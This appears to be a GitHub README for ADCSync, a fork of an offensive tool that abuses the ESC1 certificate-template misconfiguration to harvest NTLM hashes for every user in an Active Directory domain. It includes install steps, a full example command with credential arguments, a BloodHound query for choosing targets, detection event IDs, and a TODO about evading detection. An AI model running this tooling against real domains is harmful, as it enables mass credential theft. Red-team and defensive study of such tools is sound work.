 # ADCSsync

This is a tool I whipped up together quickly to DCSync utilizing ESC1. It is quite slow but otherwise an effective means of performing a makeshift DCSync attack without utilizing [DRSUAPI](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) or [Volume Shadow Copy](https://book.hacktricks.xyz/windows-hardening/stealing-credentials#volume-shadow-copy). 

This is the first version of the tool and essentially just automates the process of running Certipy against every user in a domain. It still needs a lot of work and I plan on adding more features in the future for authentication methods and automating the process of finding a vulnerable template.

## Fork Update

This fork supports proxychains, both bloodhound formats such as raw users.json from SharpHound.exe or manually exported JSON from the old BloodHound.
It will also skip accounts that it already got hashes from and resume where you left off if you get disconnected for whatever reason during runtime.
Various other nice to haves.
There are multiple scripts, adcsync.py is single-threaded. The ADCSync_multi_.py files are all multi-threaded with 10 workers by default using Python's ThreadPoolExecutor.
This also supports the -sid flag in Certipy which is now required for ESC1.
You can choose which users you want to target. Export whatever custom BloodHound neo4j query results to a JSON file that contains the desired accounts.
For example:

```sql
MATCH p = (d:Domain {name: "AD.CORP.LOCAL"})-[r:Contains*1..]->(u:User) WHERE NOT u.name starts with 'KRBTGT' RETURN u
```

## Introduction

ADCSync uses the ESC1 exploit to dump NTLM hashes from user accounts in an Active Directory environment. The tool will first grab every user and domain in the Bloodhound dump file passed in. Then it will use Certipy to make a request for each user and store their PFX file in the certificate directory. Finally, it will use Certipy to authenticate with the certificate and retrieve the NT hash for each user. This process is quite slow and can take a while to complete but offers an alternative way to dump NTLM hashes. 


## Installation

```
git clone https://github.com/mr-pmillz/ADCSync.git
cd ADCSync
virtualenv -p python3 venv
source venv/bin/activate
python3 -m pip install -r requirements.txt
```

## Usage

To use this tool we need the following things:

1. Valid Domain Credentials
2. A user list from a bloodhound dump that will be passed in.
3. A template vulnerable to ESC1 (Found with Certipy find)


```shell
# python3 ADCSync_multi_log_full_with_retry.py --help

usage: ADCSync_multi_log_full_with_retry.py [-h] -f FILE -o OUTPUT -ca-name CA_NAME
                                            -dc-ip DC_IP -dc-fqdn DC_FQDN -u USER
                                            -p PASSWORD -template TEMPLATE -target TARGET
                                            [-t THREADS] [-debug] [-proxychains]

Retrieve NTLM hashes via ADCS ESC1 technique.

options:
  -h, --help            show this help message and exit
  -f, --file FILE       Input User List JSON file from Bloodhound
  -o, --output OUTPUT   NTLM Hash Output file
  -ca-name CA_NAME      Certificate Authority
  -dc-ip DC_IP          IP Address of Domain Controller
  -dc-fqdn DC_FQDN      FQDN of Domain Controller
  -u, --user USER       Username
  -p, --password PASSWORD
                        Password
  -template TEMPLATE    Template Name vulnerable to ESC1
  -target TARGET        CA FQDN
  -t, --threads THREADS
                        Number of threads to use. (default=4)
  -debug                Show verbose debugging information
  -proxychains          Use proxychains4
```

Example command:

```shell
python3 ADCSync_multi_log_full_with_retry.py -f all-ad.corp.local-users.json \
-o dcsync.txt \
-ca-name FOO-CA \
-dc-ip 10.10.10.10 \
-dc-fqdn cool-dc1.ad.corp.local \
-u 'coolbeans@ad.corp.local' \
-p 'PASSWORDHERE' \
-template VULN-ESC1-TEMPLATE-NAME \
-target CA-FQDN.ad.corp.local \
-proxychains \
-debug
```

## Detection

* Event ID 4898: This event is generated every time a certificate template is loaded during enrollment. It records - in detail - the properties and security descriptor of the certificate template.
* Event ID 4887: This event is generated when a certificate is successfully issued to a user.
* Event ID 4888: This event is generated when a certificate request is denied.

## TODO

* Support alternative authentication methods such as NTLM hashes and ccache files
* Automatically run "certipy find" to find and grab templates vulnerable to ESC1
* Add jitter and sleep options to avoid detection
* Add type validation for all variables


## Acknowledgements

* [puzzlepeaches](https://github.com/puzzlepeaches): Telling me to hurry up and write this
* [ly4k](https://github.com/ly4k/Certipy): For Certipy
* [WazeHell](https://github.com/WazeHell/vulnerable-AD): For the script to set up the vulnerable AD environment used for testing
